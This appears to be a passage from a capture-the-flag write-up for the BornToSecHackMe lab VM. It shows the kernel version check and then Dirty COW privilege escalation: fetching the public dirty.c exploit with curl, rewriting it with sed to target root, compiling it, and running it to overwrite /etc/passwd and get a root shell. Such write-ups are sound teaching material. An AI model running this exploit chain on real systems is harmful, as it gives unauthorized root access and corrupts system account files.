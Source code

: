 All previous steps are identical to those in solution 1, so we will start this solution from step 7.

## 7. Exploring the Target

After gaining initial access to the system, we check the system information using the `uname` command to learn more about the target environment.

```bash
www-data@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

The output reveals that the system is running on a 32-bit version of Ubuntu with kernel version `3.2.0-91`. A quick Google search shows that this kernel version is vulnerable to a well-known **Local Privilege Escalation** exploit known as **[CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)** (Dirty COW). This vulnerability affects Linux kernel versions from `2.x` to `4.x` before `4.8.3` and allows an unprivileged user to gain root privileges by exploiting a race condition.

### 8. Exploiting Dirty COW

To exploit this vulnerability, we will use an existing exploit written in C, which we can download and modify to escalate privileges.

```bash
www-data@BornToSecHackMe:~$ curl -O https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
```

We downloaded the Dirty COW exploit from GitHub. Since the code references the username "firefart," we will replace all instances of "firefart" with "root" to modify the root account.

```bash
www-data@BornToSecHackMe:~$ sed -i 's/firefart/root/g' dirty.c
```

Next, we compile the C code using `gcc`:

```bash
www-data@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
```

We then run the exploit with a password of our choice (in this case, `"password"`):

```bash
www-data@BornToSecHackMe:~$ ./dirty password
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password
Complete line:
root:rox7Jdqy.byUU:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'password'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

The exploit successfully modifies the `/etc/passwd` file, adding a new root user with the password `"password"`. Now we can switch to the root user:

```bash
www-data@BornToSecHackMe:~$ su -
Password:
root@BornToSecHackMe:~#
```